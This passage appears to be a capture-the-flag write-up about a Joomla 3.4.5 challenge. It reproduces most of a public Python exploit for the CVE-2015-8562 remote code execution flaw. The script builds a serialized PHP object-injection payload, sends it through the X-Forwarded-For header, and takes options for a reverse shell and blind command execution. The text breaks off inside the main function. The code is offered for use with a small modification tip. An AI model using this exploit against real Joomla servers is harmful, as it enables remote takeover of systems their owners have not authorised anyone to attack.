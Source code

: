### joomlaJoomla!!!!!

* joomla 3.4.5 RCE. Diff the source with official version then you'll find that the author modify some of the source code. Just simply bypass it.

script from [https://www.exploit-db.com/exploits/39033](https://www.exploit-db.com/exploits/39033)
Modify a little bit of it will do the job. (`|` => `||`)
```python
import requests
import subprocess
import argparse
import sys
import base64
 
# Heavy lifting from PoC author Gary@ Sec-1 ltd (http://www.sec-1.com)
def get_url(url, user_agent):
 
    headers = {
    'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 5_0 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko) Version/5.1 Mobile/9A334 Safari/7534.48.3', # Change default UA for Requests
    'x-forwarded-for': user_agent   # X-Forwarded-For header instead of UA
    }
    cookies = requests.get(url,headers=headers).cookies
    for _ in range(3):
        response = requests.get(url, headers=headers,cookies=cookies)    
    return response.content


def php_str_noquotes(data):
    "Convert string to chr(xx).chr(xx) for use in php"
    encoded = ""
    for char in data:
        encoded += "chr({0}).".format(ord(char))
 
    return encoded[:-1]

 
def generate_payload(php_payload):
 
    php_payload = "eval({0})".format(php_str_noquotes(php_payload))
 
    terminate = '\xf0\xfd\xfd\xfd';
    exploit_template = r'''}__test||O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
    injected_payload = "{};JFactory::getConfig();exit".format(php_payload)    
    exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
    exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate
 
    return exploit_template


def main():
    parser = argparse.ArgumentParser(prog='cve-2015-8562.py', description='Automate blind RCE for Joomla vuln CVE-2015-8652')
    parser.add_argument('-t', dest='RHOST', required=True, help='Remote Target Joomla Server')
    parser.add_argument('-l', dest='LHOST', help='specifiy local ip for reverse shell')
    parser.add_argument('-p', dest='LPORT', help='specifiy local port for reverse shell')
    parser.add_argument('--cmd', dest='cmd', action='store_true', help='drop into blind RCE')

    args = parser.parse_args()

    if args.cmd:
```